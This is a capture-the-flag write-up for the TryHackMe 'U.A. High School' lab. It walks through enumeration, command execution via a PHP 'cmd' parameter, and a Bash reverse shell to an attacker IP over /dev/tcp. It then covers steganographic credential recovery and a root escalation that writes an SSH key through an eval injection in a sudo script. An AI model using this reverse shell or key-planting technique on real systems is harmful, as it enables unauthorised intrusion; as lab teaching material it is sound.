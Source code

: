 # TryHackMe - U.A. High School

## Enumeration

We start with our nmap scan which just reveals an SSH and HTTP server running.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 07:00 EDT
Nmap scan report for 10.10.42.185
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
|   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
|_  256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: U.A. High School
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds
```

We begin to enumerate the HTTP server by running feroxbuster which reveals the assets subdirectory.&#x20;

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Feroxbuster doesn't reveal any further details which is where we'll bring GoBuster in for the fine tuning, we'll configure our scan to search for specific file types which gives us a hit for "index.php"

```
gobuster dir -u 10.10.42.185/assets -w /usr/share/wordlists/dirb/common.txt -x php,txt,js,css,zip
```

<figure><img src=".gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This just appears to be an empty PHP file to the client, but since PHP code is executed server side there may be something that is happening behind the scenes that we can't see. Curious to see if there is anything we can pass to this, we utilise wfuzz which should find any endpoints of usage, and we'll also specify the wordlist to be the "common.txt" wordlist which is stored in the following location, on a default Kali install.

```
/usr/share/seclists/Discovery/Web-Content/common.txt
```

We're going out on a limb and try to read the `/etc/passwd` file on the machine and we get a hit with the "cmd" parameter.

<figure><img src=".gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Foothold

So we have code execution! Amazing, let's get a shell. We try a Netcat shell but don't appear to have a binary on the box, so decide to craft our own shell. We make a simple Bash reverse shell:

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.8.61.246/9999 0>&1'
```

Run our first command to download the binary onto the box and store it in the tmp directory, which we can assume we have write access in.

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

We double check to ensure it's saved, which we can confirm through the output from the website, which is Base64 encoded.

<figure><img src=".gitbook/assets/0kDwX7EBOB.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/bl1M1Cq18Q.png" alt=""><figcaption></figcaption></figure>

We make our binary executable iwth `chmod +x /tmp/shell.sh` and then run it with `bash /tmp/shell.sh` which gets us a reverse shell as www-data.

<figure><img src=".gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

When on the box we find two images in the images folder that we'd found through our enumeration then begin working backwards, eventually finding another folder, "Hidden\_Content" in `/var/www` which we find another Base64 encoded flag in. Decoding it gives us some kind of password..

<figure><img src=".gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

## User

We remain curious about the images we found earlier so downlaod them onto the system and see whether there's some kind of Steganography in them. We find nothing of interest in "yuei.jpg" and find that "oneforall.jpg" isn't supported, which seems to imply there's something corrupt with the file. We inspect the structure of the file and see it's configured to be a PNG file, so correct with this with the appropriate file signature.

```
FF D8 FF E0 00 10 4A 46 49 46 00 01
```

<figure><img src=".gitbook/assets/jttPqhkBeb.png" alt=""><figcaption></figcaption></figure>

We can see that our file changes from a "data" file to a complete JPEG file, indicating it is back to its restored state.

<figure><img src=".gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

We run steghide extract with our credentials and get "creds.txt"

<figure><img src=".gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

We take these creds and SSH into the box which gives us user!

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Root

We run `sudo -l` and find a script that allows the user to input something to save to a file, but it's not sanitised properly so we can make this write to whatever file we want!

```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```

We run a POC by saving some random contents to a file then checking the permissions, and we see it's owned by root. Since we only have writing permissions our route for root here is to simply upload our own public SSH key and then SSH into the box.

We grab our public key and then run the script again, saving it into the default location where authorised keys should be stored...

<figure><img src=".gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

We attempt to SSH into the box which is successful and as such, gives us the box!

<figure><img src=".gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>
